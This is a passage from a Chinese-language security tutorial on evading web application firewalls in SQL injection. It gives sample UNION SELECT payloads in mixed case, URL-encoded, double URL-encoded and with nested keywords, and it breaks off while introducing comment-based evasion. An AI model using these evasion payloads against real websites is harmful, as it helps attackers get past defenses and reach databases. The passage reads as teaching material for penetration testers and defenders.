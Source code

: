   

uNion sElEct 1,2,3,4,5

  

**（2）URL编码**

  

极少部分的WAF不会对普通字符进行URL解码，如下所示。

  

union select 1,2,3,4,5

  

上述命令将被编码为如下所示的命令。

  

%75%6E%69%6F%6E%20%73%65%6C%65%63%74%20%31%2C%32%2C%33%2C%34%2C%35

  

还有一种情况就是URL二次编码，WAF一般只进行一次解码，而如果目标Web系统的代码中进行了额外的URL解码，即可进行绕过。

  

union select 1,2,3,4,5

  

上述命令将被编码为如下所示的命令。

  

%2575%256E%2569%256F%256E%2520%2573%2565%256C%2565%2563%2574%2520%2531%252C%2532% 252C%2533%252C%2534%252C%2535

  

**（3）替换关键字**  

  

WAF采用替换或者删除select/union这类敏感关键词的时候，如果只匹配一次则很容易进行绕过。

  

union select 1,2,3,4,5

  

上述命令将转换为如下所示的命令。

  

unuionion selselectect 1,2,3,4,5

  

**（4）使用注释**

  

注释在截断SQL语句中用得比较多，在绕过WAF时主要使用其替代空格（/\*任意内容\*/），适用于检测过程中没有识别注释或替换掉了注释的WAF。

  

Union select 1,2,3,4,5

  

上述命令将转换为如下所示的命令。
